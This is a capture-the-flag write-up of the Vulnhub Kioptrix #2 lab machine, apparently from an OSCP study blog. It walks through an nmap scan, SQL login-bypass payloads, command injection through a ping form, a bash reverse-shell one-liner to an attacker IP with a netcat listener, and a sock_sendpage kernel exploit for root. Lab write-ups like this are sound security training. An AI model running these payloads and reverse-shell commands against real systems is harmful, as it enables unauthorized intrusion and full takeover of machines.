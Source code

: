 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #2 Writeup"
date:   2020-01-29 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Enumeration

#### Nmap
```bash
Nmap scan report for 192.168.71.129
Host is up, received arp-response (0.0056s latency).
Scanned at 2020-01-19 12:22:25 IST for 119s
Not shown: 994 closed ports
Reason: 994 resets
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|   1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEA4j5XFFw9Km2yphjpu1gzDBglGSpMxtR8zOvpH9gUbOMXXbCQeXgOK3rs4cs/  
j75G54jALm99Ky7tgToNaEuxmQmwnpYk9bntoDu9SkiT/hPZdOwq40yrfWIHzlUNWTpY3okTdf/YNUAdl4NOBOYbf0x/dsAdHHqSWnvZmruFA6M=
|_sshv1: Server supports SSHv1
80/tcp   open  http       syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    syn-ack ttl 64 2 (RPC #100000)
443/tcp  open  ssl/https? syn-ack ttl 64
|_ssl-date: 2020-01-19T04:44:13+00:00; -2h09m12s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp        syn-ack ttl 64 CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      syn-ack ttl 64 MySQL (unauthorized)
MAC Address: 00:0C:29:48:8C:63 (VMware)

Host script results:
|_clock-skew: -2h09m12s
```

That's a lot of attack surface to cover. Let's start with the web application on port 80.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix2/login.png){: .align-center}
Looks like a login page for administrators. We can try `sql` injection or `sql` login bypass.  
We can bypass the login using `' or 1#` or `' or 1-- `

#### MySQL Login code (an be found after getting a shell)
```sql
$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
```
We can see that we can escape from the query using a `'` and then return a true value using `or 1` and then comment out the rest using `#` or `-- `

## Low Privilege Shell
Login has been successfully bypassed and we are presented with another page, asking for an ip address to ping. 
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix2/revshell.png){: .align-center}
We can inject any command here by appending a `;` followed by our code. Unfortunately there was no `netcat` installed. But we can get reverse shell using `bash`

```bash
bash -i >& /dev/tcp/192.168.71.128/4444 0>&1
```
Don't forget to start a `nc` listener.

```bash
root@kali:~/Desktop/vulnhub/kioptix2# nc -lvp 4444
listening on [any] 4444 ...
192.168.71.129: inverse host lookup failed: Unknown host
connect to [192.168.71.128] from (UNKNOWN) [192.168.71.129] 49917
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
And we have a shell.

## Low Priv Shell Enumeration

So I spent a good amount of time snooping around, looking for privilege escalation methods but to no avail.
I finally started looking for kernel exploits.
Usually it’s always a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. So always make sure that you have exhausted all your options before trying out kernel exploits.

#### Linux Exploit Suggester
We can use [Linux_Exploit_Suggester.pl](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) to find possible kernel exploits.

```bash
bash-3.00$ perl Linux_Exploit_Suggester.pl

Kernel local: 2.6.9

Searching among 65 exploits...

Possible Exploits:
[+] american-sign-language
   CVE-2010-4347
   Source: http://www.securityfocus.com/bid/45408/
[+] exp.sh
[+] half_nelson
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/6851
[+] half_nelson1
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson2
   Alt: econet    CVE-2010-3850
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson3
   Alt: econet    CVE-2010-4073
   Source: http://www.exploit-db.com/exploits/17787/
[+] krad
[+] krad3
   Source: http://exploit-db.com/exploits/1397
[+] pktcdvd
   CVE-2010-3437
   Source: http://www.exploit-db.com/exploits/15150/
[+] py2
[+] sock_sendpage
   Alt: wunderbar_emporium    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9435
[+] sock_sendpage2
   Alt: proto_ops    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9436
[+] udp_sendmsg_32bit
   CVE-2009-2698
   Source: http://downloads.securityfocus.com/vulnerabilities/exploits/36108.c
[+] video4linux
   CVE-2010-3081
   Source: http://www.exploit-db.com/exploits/15024/
```

I had to filter through these exploits and finally found [sock_sendpage()](https://www.exploit-db.com/exploits/9545)

## Root Shell
Transfer the code to the machine(I used `python` http server and `wget`), compile it and run.

```bash
bash-3.00$ gcc -Wall sock.c
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```
And we are root!